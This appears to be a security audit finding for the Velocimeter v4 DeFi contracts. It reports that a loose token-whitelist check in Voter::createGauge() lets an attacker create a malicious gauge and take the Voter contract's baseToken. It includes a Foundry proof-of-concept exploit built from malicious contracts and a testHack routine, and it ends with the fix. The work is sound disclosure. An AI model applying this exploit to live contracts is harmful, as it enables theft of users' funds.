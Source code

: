 Petite Flint Nuthatch

Medium

# Malicious user can transfer all `Voter` contract's all `baseToken`

## Summary

Hacker can create a malicious pool from `PairFactory` and then use it to call `Voter`::`createGauge()`, `Voter` contract will approve its `baseToken` to the malicious gauge, hacker can then execute specific steps to transfer all `baseToken` in `Voter` contract.

## Vulnerability Detail

In `Voter`::`createGauge()` it can accept a `pool` address and then create a `gauge`, although it do some check about `pool`'s tokenA and tokenB(line 351), but according to `checkGaugeCreationAllowance()` it only needs one of the token to be whitelisted instead all of them(this is different from the previous version which is on chain, https://ftmscan.com/address/0xc9ea7a2337f27935cd3ccfb2f725b0428e731fbf#code#F1#L330).This will cause a problem that hacker can first create a pair from `PairFactory` contract using a whitelist token and a self controlled token.

Since the `Voter` will approve `gauge` all of its `baseToken` and the gauge is given the `Minter` role after it been created.User can first manipulate the `pool`'s liquidity(one of the token is his own) and then deposit the LP token to the `gauge` to make him have enough reward. And then call `getReward()` function to claim his rewards.

The rough call stack is as described: `Gauge`::`getReward()`-->`Voter`::`distribute`-->`Gauge`::`notifyRewardAmount()`. In `notifyRewardAmount()` it has `_safeTransferFrom(token, msg.sender, address(this), amount);` and the the `Voter`'s `baseToken` will be transfered.

Below is a rough POC, I marked the issue as medium since although the problem does exist but it is hard to exploit.The `checkGaugeCreationAllowance()` need to be fixed though.

```solidity
// 1:1 with Hardhat test
pragma solidity 0.8.13;

import "forge-std/Test.sol";
import "forge-std/console2.sol";
import "solmate/test/utils/mocks/MockERC20.sol";
import "contracts/factories/BribeFactory.sol";
import "contracts/factories/GaugeFactoryV4.sol";
import "contracts/factories/PairFactory.sol";
import "contracts/ExternalBribe.sol";
import "contracts/GaugeV4.sol";
import "contracts/GaugePlugin.sol";
import "contracts/Minter.sol";
import "contracts/OptionToken.sol";
import "contracts/OptionTokenV3.sol";
import "contracts/OptionTokenV4.sol";

import "contracts/Pair.sol";
import "contracts/RewardsDistributor.sol";
import "contracts/Router.sol";
import "contracts/Flow.sol";
import "contracts/VelocimeterLibrary.sol";
import "contracts/Voter.sol";
import "contracts/VeArtProxy.sol";
import "contracts/VotingEscrow.sol";

contract MaliciousPair {
    function transferFrom(
        address src,
        address dst,
        uint amount
    ) external returns (bool) {
        return true;
    }
}

contract MaliciousVoter {
    address gaugeFactory;

    constructor(address _gaugeFactory) {
        gaugeFactory = _gaugeFactory;
    }

    function createMaliciousGauge(
        address maliciousFlow,
        address maliciousPair,
        address hacker,
        address maliciousEscrow
    ) external returns (address) {
        address[] memory allowedRewards = new address[](1);
        allowedRewards[0] = address(maliciousFlow);
        return
            GaugeFactoryV4(gaugeFactory).createGauge(
                address(maliciousPair),
                address(hacker),
                address(maliciousEscrow),
                true,
                allowedRewards
            );
    }

    function emitDeposit(uint tokenId, address account, uint amount) external {}
}

contract EXPTest is Test {
    GaugeFactoryV4 gaugeFactory;
    GaugeV4 gauge;
    Flow maliciousFlow;
    MaliciousVoter maliciousVoter;
    OptionToken oFlow;
    MaliciousPair maliciousPair;
    VotingEscrow maliciousEscrow;
    address owner = vm.addr(uint256(keccak256("owner")));
    address hacker = vm.addr(uint256(keccak256("hacker")));
    address victim = vm.addr(uint256(keccak256("victim")));
    address not_important = vm.addr(uint256(keccak256("not important")));

    struct Checkpoint {
        uint timestamp;
        uint balanceOf;
    }

    function setUp() public {
        vm.startPrank(owner);
        gaugeFactory = new GaugeFactoryV4();
        oFlow = new OptionToken(
            "Option to buy Flow",
            "oFlow",
            owner,
            ERC20(not_important),
            ERC20(not_important),
            IPair(not_important),
            address(gaugeFactory),
            owner,
            30
        );

        vm.stopPrank();
    }

    function testHack() public {
        maliciousFlow = new Flow(hacker, type(uint).max);
        maliciousEscrow = new VotingEscrow(
            address(maliciousFlow),
            address(not_important),
            address(not_important),
            owner
        );
        maliciousPair = new MaliciousPair();
        maliciousVoter = new MaliciousVoter(address(gaugeFactory));

        gauge = GaugeV4(
            maliciousVoter.createMaliciousGauge(
                address(maliciousFlow),
                address(maliciousPair),
                address(hacker),
                address(maliciousEscrow)
            )
        );

        vm.startPrank(hacker);
        maliciousFlow.approve(address(gauge), type(uint).max);
        uint256 beforeEarned = gauge.earned(
            address(maliciousFlow),
            address(victim)
        );
        console2.log("before earned:", beforeEarned);
        gauge.depositFor(address(victim), 1);
        gauge.notifyRewardAmount(address(maliciousFlow), 1000000000 * 1e18);

        vm.warp(block.timestamp + 1000);

        gauge.batchRewardPerToken(address(maliciousFlow), 300);
        (uint timestamp, uint balanceOf) = gauge.checkpoints(
            address(hacker),
            0
        );
        uint256 afterEarned = gauge.earned(
            address(maliciousFlow),
            address(victim)
        );
        console2.log("after earned:", afterEarned);
    }
}

```

## Impact

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L351
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L361
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/factories/GaugeFactoryV4.sol#L23

## Tool used

Manual Review

## Recommendation

change `||` to `&&`